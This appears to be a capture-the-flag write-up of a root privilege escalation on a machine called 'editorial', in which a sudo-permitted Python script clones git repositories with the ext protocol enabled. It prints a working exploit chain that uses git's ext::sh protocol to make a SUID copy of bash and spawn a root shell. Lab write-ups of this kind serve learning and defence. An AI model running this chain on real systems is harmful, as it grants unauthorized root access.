 ### Escalate to `root` user using git `ext::sh://` external protocol

#### List allowed sudo commands
```
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

#### Locate vulnerability in `clone_prod_change.py`
Vulnerability exists in line 12, `-c protocol.ext.allow=always` allows usage of `ext::` protocols.
```
prod@editorial:~$ cat -n /opt/internal_apps/clone_changes/clone_prod_change.py
     1  #!/usr/bin/python3
     2
     3  import os
     4  import sys
     5  from git import Repo
     6
     7  os.chdir('/opt/internal_apps/clone_changes')
     8
     9  url_to_clone = sys.argv[1]
    10
    11  r = Repo.init('', bare=True)
    12  r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

#### Exploit vulnerability to spawn root shell
```
prod@editorial:~$ echo "cp /bin/bash /tmp/root_shell && chmod +s /tmp/root_shell" > /tmp/exploit.sh && chmod +x /tmp/exploit.sh && \
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py ext::sh\ -c\ '/tmp/exploit.sh' 2> /dev/null; \
sleep 1 && \
/tmp/root_shell -p
[sudo] password for prod: 
root_shell-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) egid=0(root) groups=0(root),1000(prod)
```
